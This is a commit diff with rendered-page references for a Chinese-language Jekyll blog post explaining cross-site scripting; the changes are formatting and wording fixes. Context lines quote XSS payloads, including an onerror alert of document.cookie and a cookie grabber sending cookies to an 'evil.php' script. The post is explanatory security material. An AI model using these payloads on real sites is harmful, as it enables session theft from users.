

Before and after one commit to dyeat/dyeat.github.io, a Jekyll site: the page built from _posts/2018-12-27-Cross-site_Scripting(XSS).md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update post

````diff
--- a/_posts/2018-12-27-Cross-site_Scripting(XSS).md
+++ b/_posts/2018-12-27-Cross-site_Scripting(XSS).md
@@ -8,10 +8,10 @@ tags: [security,web]
 
 跨站點腳本（XSS）攻擊發生在：
 
-數據通過不受信任的來源進入Web應用程序，最常見的是Web請求。
-數據包含在動態內容中，該動態內容在未經過惡意內容驗證的情況下發送給Web用戶。
-發送到Web瀏覽器的惡意內容通常採用JavaScript段的形式，但也可能包括HTML，Flash或瀏覽器可能執行的任何其他類型的程式碼。
-基於XSS的各種攻擊幾乎是無限的，但它們通常包括向攻擊者傳輸私有數據（如cookie或其他會話信息），將受害者重定向到攻擊者控制的Web內容，或者在用戶的計算機上執行其他惡意操作在易受攻擊的網站的幌子下。
+數據通過不受信任的來源進入Web應用程序，最常見的是Web請求。<br />
+數據包含在動態內容中，該動態內容在未經過惡意內容驗證的情況下發送給Web用戶。<br />
+發送到Web瀏覽器的惡意內容通常採用JavaScript段的形式，但也可能包括HTML，Flash或瀏覽器可能執行的任何其他類型的程式碼。<br />
+基於XSS的各種攻擊幾乎是無限的，但它們通常包括向攻擊者傳輸私有數據（如cookie或其他會話信息），將受害者重定向到攻擊者控制的Web內容，或者在用戶的計算機上執行其他惡意操作在易受攻擊的網站的幌子下。<br />
 
 
 ### 儲存型XSS攻擊
@@ -40,6 +40,8 @@ XSS在屬性中使用腳本
 ```html
 <img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
 ```
+
+---
 
 ### XSS使用腳本通過編碼的URI方案
 
@@ -75,9 +77,9 @@ var adr = '../evil.php?cakemonster=' + escape(document.cookie);
 上面的程式碼將傳遞cookie的轉義內容（根據RFC內容必須在通過HTTP協議使用GET方法發送之前將其轉義）到“cakemonster”變量中的evil.php腳本。 然後攻擊者檢查他的evil.php腳本的結果（cookie抓取器腳本通常會將cookie寫入文件）並使用它。
 
 ### 錯誤頁面示例
-假設我們有一個錯誤頁面，它處理對非現有頁面的請求，這是一個經典的404錯誤頁面。 我們可以使用下面的代碼作為示例來通知用戶缺少哪個特定頁面：
+假設我們有一個錯誤頁面，它處理對非現有頁面的請求，這是一個經典的404錯誤頁面。 我們可以使用下面的程式碼作為示例來通知用戶缺少哪個特定頁面：
 
-```html
+```php
 <html>
 <body>
 
````
Also changed, not shown: other parts of _posts/2018-12-27-Cross-site_Scripting(XSS).md (+1 -1 lines).
